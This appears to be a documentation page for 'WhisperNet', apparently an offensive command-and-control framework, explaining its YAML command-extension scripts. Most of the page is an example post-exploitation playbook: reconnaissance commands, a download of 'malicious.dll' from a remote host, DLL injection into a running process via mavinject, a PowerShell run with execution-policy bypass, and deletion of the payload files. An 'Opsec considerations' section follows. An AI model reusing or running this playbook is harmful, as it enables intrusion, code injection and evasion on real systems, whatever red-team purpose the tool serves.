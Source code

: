 # Command Extension Scripts

WhisperNet provides extensibility for commands using a **YAML-based** system, allowing you to define automated actions in sequence.

---

## Example Script

```yaml
commands:
  - command: recon
    actions:
      - command: shell
        args: whoami /all

      - command: shell
        args: ipconfig /all

      - command: shell
        args: netstat -ano

  - command: inject_dll
    actions:
      - command: get_file
        args: http://someip/malicious.dll C:\malicious.dll

      - command: start-process
        args: mavinject <PID> /INJECTRUNNING C:\malicious.dll


  - command: deploy_payload
    actions:
      - command: upload
        args: C:\temp\payload.bin /var/www/html/payload.bin

      - command: shell
        args: powershell -ExecutionPolicy Bypass -File C:\temp\payload.ps1

  - command: clean_up
    actions:
      - command: shell
        args: del /Q C:\temp\payload.bin

      - command: shell
        args: del /Q C:\temp\payload.ps1
```

---

## Opsec considerations:

Loading the scripts themselves has zero OPSEC impact. However, the commands within the scripts can have significant OPSEC implications depending on how they are configured and executed.

### **Key Features:**
- **YAML-Based:** Easily readable and modifiable command execution.
- **Multi-Step Actions:** Define multiple sequential steps under a single command.
- **Modular Design:** New commands can be added with ease.

